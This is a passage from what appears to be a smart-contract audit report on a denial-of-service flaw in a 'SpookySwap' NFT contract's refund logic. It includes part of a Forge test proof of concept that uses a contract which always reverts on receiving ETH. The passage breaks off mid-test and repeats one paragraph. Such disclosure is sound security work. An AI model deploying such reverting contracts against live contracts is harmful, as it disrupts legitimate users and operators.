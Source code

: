 3. **Potential for Repeated Failures**: An attacker can deploy multiple malicious contracts that always revert on receiving ETH. By repeatedly attempting to purchase NFTs using these contracts, the attacker can cause numerous transaction reverts.

**Proof of Concept:**
The following Forge test demonstrates how a malicious contract can exploit the refund mechanism to cause transaction reverts, leading to a DoS condition.

## Impact

Exploiting this vulnerability can lead to a Denial of Service (DoS) condition where legitimate users are unable to successfully purchase NFTs. By deploying multiple malicious contracts that cause refund failures, an attacker can consume significant gas resources and potentially approach block gas limits. This results in:

* **Contract Lockdown:** Preventing any new transactions from being processed, effectively locking down the contract.
* **Service Disruption:** Legitimate users attempting to purchase NFTs will experience transaction failures.
* **Economic Impact:** Undermines the contract's revenue model and token distribution mechanisms.
* **Reputational Damage:** Erodes user trust and confidence in the platform, potentially deterring future participation and investment.

**Proof of Concept:**

The following Forge test demonstrates how a malicious contract can exploit the refund mechanism to cause transaction reverts, leading to a DoS condition.

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {Test, console2} from "forge-std/Test.sol";
import { SpookySwap } from "../src/TrickOrTreat.sol";

// @notice A contract that always reverts upon receiving ETH to simulate refund failures.
contract MaliciousRefundContract {
    // @notice Attempts to receive ETH but always reverts.
    receive() external payable {
        revert("Cannot receive ETH - DoS Attack!");
    }
}

// @notice Test contract
contract SpookySwapTest is Test {
    SpookySwap spookySwap;

    function setUp() public {
        // Initialize the contract with a sample treat
        SpookySwap.Treat[] memory treats = new SpookySwap.Treat[]();
        treats[0] = SpookySwap.Treat({
            name: "Candy",
            cost: 1 ether,
            metadataURI: "ipfs://Qm..."
        });
        spookySwap = new SpookySwap(treats);
    }

    function testDenialOfServiceInRefund() public {
        MaliciousRefundContract maliciousUser = new MaliciousRefundContract();
        vm.deal(address(maliciousUser), 10 ether);

        // Start impersonating the malicious contract's address
        vm.startPrank(address(maliciousUser));

        // Attempt to purchase a treat with excess ETH to trigger a refund
```